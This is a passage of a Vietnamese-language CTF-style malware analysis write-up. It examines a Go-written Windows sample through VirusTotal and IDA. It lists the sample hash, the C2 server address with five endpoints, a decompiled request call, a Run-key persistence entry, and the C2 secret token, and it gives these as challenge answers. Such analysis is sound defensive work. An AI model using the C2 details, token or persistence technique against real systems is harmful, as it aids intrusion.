

Trong phần Details sẽ có hash của malware cũng như là các thông tin khác nói rằng malware được viết bằng Golang và viết cho Windows.

Answer: `be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d`


Vì đây là ứng dụng Golang và là ứng dụng Windows nên việc dịch ngược sẽ gặp chút khó khăn (trong Ghidra tuy có hỗ trợ Golang nhưng bị lỗi, nên mình sử dụng IDA). Do đó, bài này mình sẽ ưu tiên phân tích động trên VirusTotal hơn là phân tích tĩnh.

9. What is the IP address of the C2 server that the malware communicates with? 
10. What port does the malware use to communicate with its Command & Control (C2) server?

Trong mục Relations, ta thấy malware cố gắng kết nối với địa chỉ IP và port là 	`40.113.161.85:5000` với 5 endpoints sau:

```
http://40.113.161.85:5000/config
http://40.113.161.85:5000/heartbeat
http://40.113.161.85:5000/login
http://40.113.161.85:5000/tasks
http://40.113.161.85:5000/helppppiscofebabe23
```

Answer: `40.113.161.85:5000`

11. What is the url if the first Request made by the malware to the c2 server?

Câu này bắt buộc ta phải phân tích tĩnh để có thể tìm ra request đầu tiên chạy đến server. Có thể phân tích động trên máy ảo nhưng mình quá lười để chạy thêm máy ảo.

Trong hàm `main__ptr_plant_Start`:

```c
  v40 = main__ptr_plant_sendHTTPRequest(
          (_DWORD)a1,
          (unsigned int)&unk_75F6DC,
          3,
          (unsigned int)&a20060102150405_1[95],
          20,
          0,
          0,
          0,
          0);
```

Malware có gửi một HTTP request đến C2 server, với tham số &a20060102150405_1[95] tương đương với /helppppiscofebabe23.

Đối chiếu với VirusTotal, đúng có một HTTP request đến đó.

Answer: `http://40.113.161.85:5000/helppppiscofebabe23`

12. The malware created a file to identify itself. What is the content of that file?

Quay lại với VirusTotal, ta thấy có 3 file đáng ngờ mà malware đã drop:



Kiểm tra file id.txt theo đường dẫn trên, ta có `3649ba90-266f-48e1-960c-b908e1f28aef` (bên trong thư mục của người dùng Public, kiểm tra bên trong thư mục người dùng hiện tại thì không có gì ngoài 1 bản sao của malware)

Answer: `3649ba90-266f-48e1-960c-b908e1f28aef`

13. Which registry key did the malware modify or add to maintain persistence? 
14. What is the content of this registry?



Bên trong tất cả các khóa registry được mở chỉ có khóa này là đáng ngờ, hoàn toàn trùng khớp với việc có đường liên kết tên là MyApp.lnk đặt trong thư mục Startup để chạy cùng hệ thống mỗi lần khởi động.

`HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\MyApp`

Nội dung của khóa là đường dẫn đến một bản copy của malware: `C:\Users\ammar\Documents\sys.exe`

15. The malware uses a secret token to communicate with the C2 server. What is the value of this key?



Trong phần Detail của VirusTotal, ở dưới phần Build Info Settings, trong khó -ldflags có một trường là main.secret

Answer: `e7bcc0ba5fb1dc9cc09460baaa2a6986`